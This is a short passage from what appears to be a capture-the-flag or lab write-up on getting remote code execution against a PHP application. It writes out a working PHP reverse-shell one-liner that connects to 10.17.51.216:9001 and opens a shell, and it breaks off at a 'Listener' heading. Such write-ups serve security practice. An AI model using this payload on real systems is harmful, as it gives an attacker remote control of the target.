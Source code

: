 ![RCE](./img/30.png)

## Creating a payload of reverse Shell to the target:

https://www.revshells.com/

![RCE](./img/31.png)

PHP Choise because the application is PHP!!!

```
php -r '$sock=fsockopen("10.17.51.216",9001);exec("sh <&3 >&3 2>&3");'
```

## Listener:
